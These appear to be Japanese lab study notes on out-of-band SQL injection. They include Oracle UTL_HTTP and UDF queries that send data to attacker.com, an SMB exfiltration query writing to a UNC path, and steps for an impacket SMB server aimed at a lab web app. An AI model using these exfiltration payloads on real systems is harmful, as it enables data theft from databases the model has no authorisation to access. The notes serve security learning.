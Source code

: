 Oracle
- 帯域外SQLインジェクションは`UTL_HTTP`または`UTL_FILE`パッケージを使用して実行できる
	- https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html
	- https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html
- UTL_HTTPパッケージは機密データを含むHTTPリクエストを送信するために使用できる
```sh
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```


## 代表的なOOB実装例
HTTPリクエスト
- UDFや外部スクリプト経由でHTTP POST
```sh
SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;
```
- HTTPリクエストによるデータ抽出は、データベースがHTTPリクエストを可能にする外部スクリプトまたはUDFをサポートしているかどうかに応じて、WindowsおよびLinux (Ubuntu) システムで実装できる

DNSエクスフィルトレーション
- 攻撃者はSQLクエリを使用して、エンコードされたデータを含むDNSリクエストを生成し、それを攻撃者によって制御されている悪意のあるDNSサーバーに送信できる
- HTTPベースの監視システムをバイパスし、DNSルックアップを実行するデータベースの機能を活用する
- MySQLはSQLコマンド単独でDNSリクエストの生成をネイティブにサポートしていない
	- 攻撃者はカスタムユーザー定義関数（UDF）やシステムレベルのスクリプトなど、他の手段を使用してDNSルックアップを実行する必要
UDFやOSスクリプトでDNSクエリにデータを埋め込み送信（MySQLは標準機能なし）

SMBエクスフィルトレーション
```sql
SELECT sensitive_data
INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';
```
- WindowsはUNCパスをそのまま扱え、LinuxでもSMB共有をマウントすれば利用可能

## 例
1. SMB共有を立ち上げる
```sh
cd /opt/impacket/examples
python3.9 smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp
smbclient //ATTACKBOX_IP/logs -U guest -N

```
2. 脆弱なWebアプリを確認
`http://10.10.120.190/oob/search_visitor.php?visitor_name=Tim`
- このvisitor_nameの部分にOut-of-band SQLiを行う
![](https://i.imgur.com/sSZmTva.png)
